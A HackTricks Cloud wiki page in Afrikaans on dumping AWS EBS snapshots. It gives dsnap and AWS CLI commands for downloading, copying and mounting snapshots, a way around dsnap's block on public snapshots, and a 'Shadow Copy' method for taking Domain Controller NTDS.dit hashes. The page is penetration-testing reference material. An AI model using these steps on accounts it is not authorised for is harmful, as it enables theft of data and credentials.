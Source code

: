 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Leer en oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer en oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repo's.

</details>
{% endhint %}

## 'n Oorsig van 'n snapshot plaaslik
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Nota** dat `dsnap` jou nie sal toelaat om publieke snapshots af te laai nie. Om dit te omseil, kan jy 'n kopie van die snapshot in jou persoonlike rekening maak en dit aflaai:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Vir meer inligting oor hierdie tegniek, kyk na die oorspronklike navorsing by [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Jy kan dit doen met Pacu deur die module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) te gebruik.

## 'n Oorsig van 'n snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Koppel dit aan 'n EC2 VM onder jou beheer** (dit moet in dieselfde streek as die kopie van die rugsteun wees):

Stap 1: 'n Nuwe volume van jou voorkeur grootte en tipe moet geskep word deur na EC2 –> Volumes te gaan.

Om hierdie aksie te kan uitvoer, volg hierdie opdragte:

* Skep 'n EBS volume om aan die EC2 instansie te koppel.
* Verseker dat die EBS volume en die instansie in dieselfde sone is.

Stap 2: Die "attach volume" opsie moet gekies word deur regs te klik op die geskepte volume.

Stap 3: Die instansie uit die instansie tekskassie moet gekies word.

Om hierdie aksie te kan uitvoer, gebruik die volgende opdrag:

* Koppel die EBS volume.

Stap 4: Teken in op die EC2 instansie en lys die beskikbare skywe met die opdrag `lsblk`.

Stap 5: Kyk of die volume enige data het met die opdrag `sudo file -s /dev/xvdf`.

As die uitvoer van die bogenoemde opdrag wys "/dev/xvdf: data", beteken dit die volume is leeg.

Stap 6: Formateer die volume na die ext4 lêerstelsel met die opdrag `sudo mkfs -t ext4 /dev/xvdf`. Alternatiewelik kan jy ook die xfs formaat gebruik met die opdrag `sudo mkfs -t xfs /dev/xvdf`. Let asseblief daarop dat jy óf ext4 óf xfs moet gebruik.

Stap 7: Skep 'n gids van jou keuse om die nuwe ext4 volume te monteer. Byvoorbeeld, jy kan die naam "newvolume" gebruik.

Om hierdie aksie te kan uitvoer, gebruik die opdrag `sudo mkdir /newvolume`.

Stap 8: Monteer die volume aan die "newvolume" gids met die opdrag `sudo mount /dev/xvdf /newvolume/`.

Stap 9: Verander gids na die "newvolume" gids en kyk die skyfspasie om die volume montering te valideer.

Om hierdie aksie te kan uitvoer, gebruik die volgende opdragte:

* Verander gids na `/newvolume`.
* Kyk die skyfspasie met die opdrag `df -h .`. Die uitvoer van hierdie opdrag moet die vrye spasie in die "newvolume" gids wys.

Jy kan dit doen met Pacu deur die module `ebs__explore_snapshots` te gebruik.

## Kyk na 'n snapshot in AWS (gebruik cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Enige AWS-gebruiker wat die **`EC2:CreateSnapshot`** toestemming het, kan die hashes van alle domeingebruikers steel deur 'n **snapshot van die Domain Controller** te skep, dit aan 'n instansie wat hulle beheer te koppel en die **NTDS.dit en SYSTEM** register hive-lêer uit te voer vir gebruik met Impacket se secretsdump-projek.

Jy kan hierdie hulpmiddel gebruik om die aanval te outomatiseer: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) of jy kan een van die vorige tegnieke gebruik nadat jy 'n snapshot geskep het.

## Verwysings

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
